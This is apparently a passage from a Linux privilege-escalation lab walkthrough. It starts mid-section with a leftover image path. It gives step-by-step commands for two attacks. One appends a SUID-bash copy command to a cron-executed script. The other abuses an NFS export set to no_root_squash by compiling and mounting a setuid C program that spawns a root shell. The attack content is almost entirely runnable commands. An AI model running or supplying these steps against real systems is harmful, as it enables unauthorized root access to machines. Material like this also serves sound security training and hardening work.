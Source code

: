 ### Exploitation

1. In command prompt type:

**echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh**

2. Wait 1 minute for the Bash script to execute.

3. In command prompt type: **/tmp/bash -p**

4. In command prompt type: **id**

#  NFS Root Squashing                            

### Detection

1. In command line type: **cat /etc/exports**

2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export.

### Exploitation

1. Open command prompt and type: **showmount -e MACHINE_IP**

2. In command prompt type: **mkdir /tmp/1**

3. In command prompt type: **mount -o rw,vers=2 MACHINE_IP:/tmp /tmp/1**

**In command prompt type:**

**echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c**

4. In command prompt type: **gcc /tmp/1/x.c -o /tmp/1/x**

5. In command prompt type: **chmod +s /tmp/1/x**

Linux VM

1. In command prompt type: **/tmp/x**

2. In command prompt type: **id**
